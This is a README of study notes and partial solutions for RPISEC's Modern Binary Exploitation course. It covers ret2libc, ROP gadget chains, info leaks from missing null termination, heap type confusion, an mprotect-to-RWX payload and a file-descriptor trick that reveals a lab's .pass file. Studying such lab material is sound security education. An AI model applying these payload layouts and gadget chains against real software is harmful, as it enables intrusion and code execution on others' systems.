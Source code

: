 Notes and some solutions for the course [Modern Binary Exploitation](https://github.com/RPISEC/MBE) by RPISEC 

# Memory Corruption

Use something like [fixenv](https://github.com/hellman/fixenv) so that the stack values are the same in gdb and direct execution.

# Dep and ROP

## ret2libc
With GEF, use p {function} and grep "string".

```bash
gef> p system
$1 = {<text variable, no debug info>} 0xb7e63190 <__libc_system>
gef> grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/lib/i386-linux-gnu/libc-2.19.so'(0xb7e23000-0xb7fcb000), permission=r-x
  0xb7f83a24 - 0xb7f83a2b ->  "/bin/sh"
```

## ROP

Classic ropper or ropgadget to get gadgets, useful in this case since "/bin/sh" is not in memory and we have to give it the string in the stack, we can set up a script that takes as argument an offset from the address of the stack we got in gdb.

```python
addr_binsh = 0xbffff6a0
addr_binsh -= int(sys.argv[1], 16)
```

```bash
$ python /var/tmp/lab5B.py 0x60
```
# ASLR

Pay attention to the loops

```c
char username[40]

for(int i = 0; i <= 40; i++){
// Do something with username
// 1 byte overflow
}
```

If you are not careful strncpy doesn't null terminate

```c
char username[32];
char readbuff[128];
int attempts = -3; // gcc compiles with int closer to ebp, doesn't seem to happen with clang


fgets(readbuff, sizeof(readbuff), stdin);
strncpy(username, readbuff, sizeof(username)); // No null termination
printf("User %s\n", username);
// It will print until it finds null byte, so it's an info leak
// if compiled with gcc it will also print "int attempts"
```

Remember how to call functions in ROP

```
junk+ret_address+fake_ret+arg1
Ex.
"A"*32+system_address+"AAAA"+addr_bin_sh
```

Be careful when things are getting zeroed and when they are not

```c
// This function is called repeatedly but
// only zeroes the struct at init so
// the second time you call it take into account
// that both user-->desc and user-->name are full
char temp[128];
memset(temp, 0, 128);
printf("Enter your name: ");
read(0, user->name, sizeof(user->name));
printf("Enter your description: ");
read(0, temp, sizeof(user->desc));
strncpy(user->desc, user->name,32);
strcat(user->desc, " is a ");
memcpy(user->desc + strlen(user->desc), temp, strlen(temp));
```

# Heap

Remember how does a used chunk and empty chunk look in memory, the metadata and all. Look at the lecture slides.

Useful to anotate state of the object confusion to see how to exploit

```c
//The structs look like this in memory right now:
struct data { //<-- program thinks object is struct data
   char reserved[8]; //--> always empty
   char buffer[20]; //--> "/bin/sh"+"\x00"*9 + small_num()
   void (* print)(char *); //--> small_str()
};

struct number {
   unsigned int reserved[6]; //--> "\x00"*8+"/bin/sh"+"\x00"*9
   void (* print)(unsigned int); //--> small_num()
   unsigned int num; //--> small_str()
};
```

Be aware of the division between ints, there are no decimals so numbers are truncated
(Ex. 7/4 = 1)

```c
#define MAX_BLOCKS 32
#define BLOCK_SIZE 4

struct msg {
    void (* print_msg)(struct msg *);
    unsigned int xor_pad[MAX_BLOCKS];
    unsigned int message[MAX_BLOCKS];
    unsigned int msg_len;
};
//if uint --> 131/4 = 32 (overflow 3 bytes)
if((new_msg->msg_len / BLOCK_SIZE) > MAX_BLOCKS) 
        new_msg->msg_len = BLOCK_SIZE * MAX_BLOCKS;
```

Use a one-gadget for stack pivot so that we can do some ROP

```python
expl += p32(0x0807e372) # add esp, 0x20; mov eax, esi; pop ebx; pop esi; ret
```

Use mprotect to make heap executable and jump to it

```python
num += p32(0x806f340)          # second gadget: __mprotect
num += p32(message_0 + 276)    # return: heap-address
num += p32(message_0 - 0x19d8) # memory-page heap
num += p32(0x22000)            # size = 0x22000
num += p32(0x7)                # prot = RWX
```

# Misc and Stack Cookies

Everything is a file in linux, if we control fd we can point it to a file that is not closed. [fd from parent processes are inherited by children]
```c
int fd1 = getfd(argv[1]); // getfd() uses the fd given or opens the file
int fd2 = getfd(argv[2]);
//...
struct fileComp* fc = comparefds(fd1, fd2);

printf( "\"%s\" is lexicographically %s \"%s\"\n",
   // securityCheck() checks if arg contains ".pass"
   securityCheck(argv[1], fc->fileContents1),
   fc->cmp > 0 ? "after" : (fc->cmp < 0 ? "before" : "equivalent to"),
   securityCheck(argv[2], fc->fileContents2));
```

To exploit we guess the fd to the ".pass" and open the ".pass" which gets blocked by securityCheck() but the file descriptor doesn't.

```bash
lab8C@warzone:/levels/lab08$ ./lab8C -fd=3 -fn=/home/lab8B/.pass
"3v3ryth1ng_Is_@_F1l3
" is lexicographically equivalent to "<<<For security reasons, your filename has been blocked>>>"
```